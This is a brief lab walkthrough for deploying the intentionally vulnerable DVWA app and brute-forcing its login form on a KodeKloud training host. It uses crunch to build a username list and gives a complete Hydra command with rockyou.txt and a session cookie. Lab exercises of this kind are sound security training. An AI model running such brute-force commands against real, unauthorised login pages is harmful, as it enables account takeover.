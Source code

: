 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

```
git clone https://github.com/jon94/dvwa-dd.git
```

Replace DD API KEY

```
docker compose up -d --force-recreate --no-deps --build
```

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

```
hydra -f -S 4280-port-c9ca66e998614364.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie:security=low; PHPSESSID=752d8f869d751bceb05b112632080b5b" -l admin -P rockyou.txt
```